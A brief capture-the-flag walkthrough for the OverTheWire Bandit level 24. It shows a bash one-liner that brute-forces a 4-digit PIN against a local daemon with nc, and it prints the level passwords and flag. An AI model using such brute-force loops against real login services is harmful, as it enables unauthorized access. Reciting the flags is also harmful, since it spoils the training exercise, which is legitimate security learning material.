 <h1>Bandit24</h1>

<b>Goal:</b>

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

<b>Solution:</b>

You can create a bash script to output all combos to brute force this but it can also be done with a bash one liner. 

<code>for i in $(seq -w 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i; done \| nc localhost 30002</code>

<details>
	<summary>Flag:</summary>

	uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

</details>